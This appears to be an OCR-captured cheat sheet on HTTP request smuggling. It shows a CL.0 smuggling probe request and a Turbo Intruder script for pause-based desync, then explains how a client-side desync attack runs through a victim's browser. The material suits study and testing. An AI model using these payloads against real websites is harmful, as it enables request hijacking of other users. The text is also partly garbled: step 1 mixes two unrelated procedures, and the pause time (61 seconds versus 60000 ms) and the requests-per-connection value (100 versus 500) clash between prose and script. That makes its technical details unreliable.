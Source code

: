 
POC

1. create a CL.0 request smuggling probe like we used in the example above, In Burp Repeater, try issuing a request for a valid directory without including a trailing slash, for example, GET /resources. Observe that you are redirected to /resources/.
```
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```
2. In Turbo Intruder's Python editor panel, adjust the request engine configuration to set the following options:

concurrentConnections=1
requestsPerConnection=100
pipeline=False

3. Queue the request, adding the following arguments

pauseMarker - A list of strings after which you want Turbo Intruder to pause.
pauseTime - The duration of the pause in milliseconds.

This issues the request twice, pausing for 61 seconds after the \r\n\r\n sequence at the end of the headers:
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000)

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

## Client Side Desync / Browser Powered Smuggling

A client-side desync (CSD) is an attack that makes the victim's web browser desynchronize its own connection to the vulnerable website.

How it works?

1. The victim visits a web page on an arbitrary domain containing malicious JavaScript.
2. The JavaScript causes the victim's browser to issue a request to the vulnerable website. This contains an attacker-controlled request prefix in its body, much like a normal request smuggling attack.
3. The malicious prefix is left on the server's TCP/TLS socket after it responds to the initial request, desyncing the connection with the browser.
4. The JavaScript then triggers a follow-up request down the poisoned connection. This is appended to the malicious prefix, eliciting a harmful response from the server.
